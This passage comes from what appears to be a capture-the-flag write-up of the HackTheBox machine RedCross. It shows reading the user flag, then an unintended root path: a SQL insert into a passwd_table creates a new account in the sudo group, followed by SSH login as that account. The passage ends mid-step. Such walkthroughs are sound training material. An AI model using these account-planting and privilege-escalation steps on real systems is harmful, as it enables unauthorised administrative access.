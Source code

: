     penel0xdf@redcross:~$ id
    uid=2020(penel0xdf) gid=1000(penelope) groups=1000(penelope)
    
    penel0xdf@redcross:~$ ls
    haraka  user.txt
    

And I can grab `user.txt`:

    
    
    penel0xdf@redcross:~$ cat user.txt 
    ac899bd4...
    

## Shell As root

From penelope, there are three different paths to getting a shell as the root
user:

![1554240903953](https://0xdfimages.gitlab.io/img/1554240903953.png)

### Path 1: sudoers Group

The method I originally used, and an unintended path was to go back into the
database the same as before, and create another user, this time with the
`sudoers` group, which is 27:

    
    
    dff@redcross:~$ grep sudo /etc/group
    sudo:x:27:
    

Create the user:

    
    
    unix=> insert into passwd_table (username, passwd, gid, homedir) values ('sud0xdfer', '$1$wV7CPbj9$59kAklYgquXe5TuJYIT591', 27, '/home/penelope');
    INSERT 0 1
    

Now ssh in:

    
    
    root@kali# ssh sud0xdfer@10.10.10.113
    sud0xdfer@10.10.10.113's password:
    Linux redcross 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1+deb9u1 (2018-05-07) x86_64
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    sud0xdfer@redcross:~$ id
    uid=2023(sud0xdfer) gid=27(sudo) groups=27(sudo)
    

And `sudo`:
